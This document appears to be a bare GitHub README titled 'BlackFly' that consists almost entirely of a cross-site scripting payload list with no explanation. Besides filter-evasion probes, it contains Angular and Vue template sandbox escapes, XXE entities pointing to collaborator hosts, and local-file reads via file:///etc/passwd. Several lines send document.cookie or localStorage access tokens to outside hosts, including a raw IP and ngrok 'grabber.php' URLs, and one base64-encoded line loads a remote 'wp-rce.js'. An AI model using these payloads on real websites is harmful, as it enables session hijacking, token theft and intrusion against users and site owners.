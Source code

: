 <h1>BlackFly</h1>

SubDomain Takeover


 %E2%88%80%E3%B8%80%E3%B0%80script%E3%B8%80alert(1)%E3%B0%80/script%E3%B8%80 
 "/></a></><img src=1.gif onerror=alert(2);>
 ”/>&_lt;_script>alert(3)&_lt;/scr_ipt>”/>
 [click this link](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
<img src=\"test\" onerror=\"alert(document.domain)\">
{ "comment": { "id": <comment-id>, "body": "blahblah", "body_html": "blah<img src=x onerror=alert(0);>" } }
<img src=x oneonerrorrror=alert(String.fromCharCode(120,61,97,108,101,114,116,40,49,41));>
{{$on.constructor('alert(4)')()}}
{{$el.ownerDocument.defaultView.alert(1)}}
{{location='javascript:alert\x281\x29'}}
<script>{onerror=alert}throw 1</script>
<iframe>13"-->">'` -- `<!--<img src="--><img src=x onerror=(prompt)(`Ex.Mi`);(prompt)(document.cookie);location=`https://ex-mi.ru`;>

<x @click=$event.view.alert(5)>click</x>
<x v-bind:is="'script'" src="//14.rs" />
<x is=script src=//⑭.₨>
<component is=script src=//⑭.₨>
<plaintext></plaintext><input id=y autofocus>
<strike onpointerover="alert(6)">XSS</strike>
<small onmouseenter="alert(7)">test</small>
<strong onkeyup="alert(8)" contenteditable="true">test</strong>
<spacer onmouseup="alert(9)">test</spacer>
<source id="x" tabindex="1" onbeforedeactivate="alert(10)"><input autofocus="autofocus">
<s onpointerenter="alert(11)">XSS</s>
<rt onmouseleave="alert(12)">test</rt>
<progress onpointerdown="alert(13)">XSS</progress>
<marquee onpointerover="alert(14)">XSS</marquee>
<mark onpointerup="alert(15)">XSS</mark>
<legend onmouseenter="alert(16)">test</legend>
<kbd ondblclick="alert(17)" autofocus="autofocus" tabindex="1">test</kbd>
<frameset onpointerleave="alert(18)">XSS</frameset>
<frameset onanimationend="alert(19)" style="animation-name: x;"></frameset>
<frameset onmousedown="alert(20)">test</frameset>
<frameset onbeforepaste="alert(21)" contenteditable="true">test</frameset>
<frameset id="x" tabindex="1" ondeactivate="alert(22)"></frameset>
{{-function(){this.alert(23)}()}}
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(25)')()}}

<!'/*"/*/'/*/"/*--><iframe/src \/\/onload = prompt(1)<x oncut=alert()>x<svg onload=alert(document.domain)>
<plaintext/onmouseover=prompt(1) ><isindex formaction=javascript:alert(/XSS/) type=submit><img src="x" onerror=alert(1)>
<iframe>“><img src=x onerror=alert(2)>


<iframe><iframe><b><noscript>&lt;/noscript&gt;<x v-bind:is="'script'" src="//14.rs" /></noscript></b></iframe>
<iframe><iframe></iframe></iframe><b><noscript></noscript><iframe onload="setTimeout(/alert(26)/.source)"></iframe></b>
<iframe><iframe><iframe onload="setTimeout(/alert(26)/.source)"></iframe>
<iframe><iframe onload="setTimeout(/alert(27)/.source)">
<FRAMESET><FRAMESET><b><noscript></noscript><x is=script src=//⑭.₨></noscript></b></FRAMESET>
<IFRAME><IFRAME><b><noscript></noscript><x is=script src=//14.rs></noscript></b></IFRAME>
<iframe><iframe><b><noscript></noscript><x is=script src=//14.rs></noscript></b></iframe>
<iframe><iframe><b><noscript></noscript><x is=script src=//blackfly06.xss.ht></noscript></b></iframe>
  "/></a></><img src=1.gif onload=prompt(28);>
 <script>window['alert'](document['domain'])</script>
<div id = "x"></div><script>alert(x.parentNode.parentNode.parentNode.location)</script>
<svg onload=prompt%26%230000000040document.domain)>
"><textarea autofocus onfocus=co\u006efir\u006d()>"><iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;document.domain&rpar;&gt;">

 <img src='/static/demos/GEECS'><img src=x onerror=alert(/DOM-XSS/)>.jpg' />
 <a href=javas&#99;ript:alert(29)>click
 “><svg/onload=alert(document.domain)>”@x.y
 <details open ontoggle=confirm()>
 #'><img src=x onerror=alert(/DOM-XSS/)>
 <audio src/onerror=alert(30)>
 <embed src=//14.rs> —
 <d3/onmouseenter=[2].find(confirm)>z on .
 "'..lpe/Title/</Style/</Script/</Textarea/</Noscript/</Pre/</Xmp><Body/OnPageShow=confirm(31)>#
 `</title><base href="https://mrvueoqjum08.redir.bugpoc.ninja/"><input id="fileIntegrity" value="${fileIntegrity}" />`
 <IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
 <script>new Image().src="http://193.112.33.32/?cookie=" + document.cookie;</script>
 
 <iframe srcdoc='&lt;body onload=prompt&lpar;32&rpar;&gt;'>

 
<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('gotcha');<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>

<!--?xml version="1.0" encoding="ISO-8859-1"?--><foo>&lt;<!--[CDATA[<]]-->SCRIPT<!--[CDATA[-->&gt;alert('gotcha');&lt;<!--[CDATA[<]]-->/SCRIPT<!--[CDATA[-->&gt;</foo>

&lt;<!\[CDATA\[<]]>SCRIPT<!\[CDATA\[>&gt;alert('gotcha');&lt;<!\[CDATA\[<]]>/SCRIPT<!\[CDATA\[>&gt;

<!--?xml version="1.0" encoding="ISO-8859-1"?--><foo>&lt;<!\[\CDATA\[<]]>SCRIPT<!\[\CDATA\[>&gt;alert('gotcha');&lt;<!\[\CDATA\[<]]>/SCRIPT<!\[\CDATA\[>&gt;</foo>

>"<IMG SRC="javas]]<![CDATA[cript:document.cookie=true;">]]</C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN></p> 


    <script>
        if (environment.MAXYMISER === 'true') {
            document.write('<script src="x" alert(33)><\/script>');
        }
    </script>
    
    
    
<body>
<script>
const FRAME_COUNT = 1024;

let container = document.body.appendChild(document.createElement('div'));
for (let i = 0; i < FRAME_COUNT; ++i) {
  let frame = container.appendChild(document.createElement('iframe'));
  frame.style.display = 'none';
}
container.remove();

frame = container.firstChild;
alert(`
  <iframe> is not attached to the document tree, but still has a content frame!
  frame.parentNode.parentNode: ${frame.parentNode.parentNode}
  frame.contentWindow: ${frame.contentWindow}
`);
</script>
</body>

9t337xafh5140p6xmniu2xs4ovulia.burpcollaborator.net


">><marquee><img src=//9t337xafh5140p6xmniu2xs4ovulia.burpcollaborator.net onerror=confirm(document.cookie)></marquee>




<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM 
 “http://vnm4kils63xo4q12645hx4jlico3cs.burpcollaborator.net”> ]>
  <stockCheck>
  <productId>
  &xxe;
    </productId>
     <storeId>
       1
       </storeId>
       </stockCheck>




<img src=https://eba1c363a99a.ngrok.io/XSS/grabber.php?c='+document.cookie>

<xml ID="xss"><I><B>&lt;IMG SRC=http://03ac0d27a0c8.ngrok.io/&gt;</B></I></xml><SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN></C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
<a onmouseover="try{ const {shell} = require('electron'); shell.openExternal('file:C:/Windows/System32/calc.exe') }catch(e){alert(e)}">Harmless Link</a>
&lt;img src=https://2871c803f805.ngrok.io onerror="document.write"/&gt;
&lt;img src&equals;x:x onerror&equals;alert&lpar;document.domain&rpar;&gt;
&lt;img src=x onerror=Promise.all([document.domain]).then(alert);&gt;
&lt;img src=x onerror=with(document)prompt(cookie)&gt;
&lt;img src=x onerror=with(document.write)prompt(encodeURI(document.documentElement.outerHTML))&gt;
&lt;img src=x onerror=with(document.write)prompt(navigator.appVersion)&gt;
&lt;img src=x onerror=with(document.write)prompt(Date())&gt;
<img src=x onerror=with(document.location='http://127.0.0.1:1234/XSS/grabber.php?c='+localStorage.getItem('access_token'))prompt(34)>
&lt;img src=x onerror=top[/al/.source+/ert/.source](1)&gt;
&lt;img src=x onerror=with(document.write)prompt(localStorage.getItem)&gt;
&lt;img src=x onerror=with(document.write)prompt(localStorage.key(0))&gt;
<body onclick=with(document)prompt(domain)> where entry equals )}.{0:promt(36)
<button type="button" onclick=with(document)alert(domain)>Click Me!</button>
<body onclick=Promise.all([document.domain]).then(alert)> where entry equals )}.{0:promt(37)
<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
<img src="xasdasdasd" onerror="document.write('<iframe src=php://filter/convert.base64-encode/resource=index.php></iframe>')"/>
<img src="xasdasdasd" onerror="document.write('<iframe src=template=\..\..\..\..\..\..\..\..\..\etc\passwd&type=text&top-text=ad&bottom-text=asd></iframe>')"/>
 <IFRAME SRC= onmouseover=Promise.all([document.domain]).then(alert)></IFRAME>
">'><details/open/ontoggle=writeln(String.fromCharCode(60,115,99,114,105,112,116,62,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,40,39,47,117,115,114,47,98,105,110,47,103,110,111,109,101,45,99,97,108,99,117,108,97,116,111,114,39,44,102,117,110,99,116,105,111,110,40,41,123,125,41,60,47,115,99,114,105,112,116,62))>

<details open ontoggle=window.open("https://www.doyensec.com");win.eval("alert(document.domain)");>
"><<!\[CDATA\[<]]>details open ontoggle=location.href='https://google.com'>

POC<img src=x onerror='document.write(atob("UnVubmluZyBQT0M8c2NyaXB0IHR5cGU9InRleHQvamF2YXNjcmlwdCIgc3JjPSJodHRwOi8vMTU5LjIwMy4xOTAuMTIzL3c5cmZhczg5ZXVmczllOGZ1OThld3VmandlZmlvandlX3MxMDU4Zy0vd3AtcmNlLmpzIj48L3NjcmlwdD4="))'>
<img src=x onerror="location.href='https://f78a7fe25a9c.ngrok.io/?c='+ document.cookie">
&lt;img src&equals;x:x onerror&equals;"location.href&equals;'http://127.0.0.1:443/?c&equals;'+document.cookie"&gt;
&lt;iframe&gt;&lt;iframe&gt;&lt;b&gt;&lt;noscript&gt;&lt;/noscript&gt;&lt;component is&equals;script src&equals;//14.Rs&gt;&lt;/noscript&gt;&lt;/b&gt;&lt;/iframe&gt;



<!--?xml version="1.0" encoding="ISO-8859-1"?--><foo>&lt;<!--[CDATA[<]]-->SCRIPT&gt;alert(38);&lt;<!--[CDATA[<]]-->/SCRIPT<!--[CDATA[-->&gt;</foo>
<!--?xml version="1.0" encoding="ISO-8859-1"?-->&lt;SCRIPT<!--[CDATA[-->&gt;alert('gotcha');&lt;/SCRIPT<!--[CDATA[-->&gt;
<foo>&lt;<![CDATA[<]]>SCRIPT<![CDATA[>]]>&gt;</foo>alert('gotcha');&lt;<![CDATA[<]]>/SCRIPT<![CDATA[>]]>&gt;


"><textarea autofocus onfocus=co\u006efir\u006d()>"><iframe src="https://ewe4u0f7mfj88xwcnuxjcttqzh58tx.burpcollaborator.net">


<img src="http://127.0.0.1:1234">

{{
c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
c.$apply=$apply;c.$eval=b;op=$root.$$phase;
$root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
B=C(b,c,b);$evalAsync("
astNode=pop();astNode.type='UnaryExpression';
astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
astNode.argument={type:'Identifier',name:'foo'};
");
m1=B($$asyncQueue.pop().expression,null,$root);
m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
$eval('a(b.c)');[].push.apply=a;
}}

<plaintext><<!\[CDATA[<]]>SCRIPT type="text/javascript">
        name = location.hash.substring(1);
        document.write("<b>Hey "+unescape(name)+"! Nice to meet you</b>");
        <<!\[CDATA[<]]>/SCRIPT type="text/javascript">
        
        
“javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie”


<a"/onclick=(confirm)()>Click Here!
Dec: <svg onload=prompt%26%230000000040document.domain)>
Hex: <svg onload=prompt%26%23x000000028;document.domain)>
xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
<--%253cimg%20onerror=alert(1)%20src=a%253e --!>
<a+HREF='%26%237javascrip%26%239t:alert%26lpar;document.domain)'>
javascript:{ alert`0` }
1'"><img/src/onerror=.1|alert``>
<img src=x onError=import('//1152848220/')>
%2sscript%2ualert()%2s/script%2u
<svg on onload=(alert)(document.domain)>
<img ignored=() src=x onerror=prompt(1)>
<svg onx=() onload=(confirm)(1)>
“><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;
<svg on =i onload=alert(domain) (working)
<svg/onload=location/**/='https://your.server/'+document.domain>
<svg onx=() onload=window.alert?.()> (working)
test",prompt%0A/*HelloWorld*/(document.domain) (working)- @Brutelogic
"onx+%00+onpointerenter%3dalert(domain)+x" (working)- @Brutelogic
"><svg%20onload=alert%26%230000000040"1")> (working)- @IamRenganathan
%27%09);%0d%0a%09%09[1].find(alert)//
"><img src=1 onmouseleave=print()> - @itsgeekymonk
<svg on onload=(alert)(document.domain)> -@zapstiko
<svg/on%20onload=alert(1)> (working) -@aufzayed
<img/src=x onError="`${x}`;alert(`Ex.Mi`);"> -@ex_mi


<plaintext><iframe><<!\[CDATA[<]]>SCRIPT type="text/javascript">prompt()<<!\[CDATA[<]]>/SCRIPT type="text/javascript">
        
        
        "/><svg/on<script>load=prompt(document.domain);>"/><svg/on<script>load=prompt(document.cookie);>
        
        
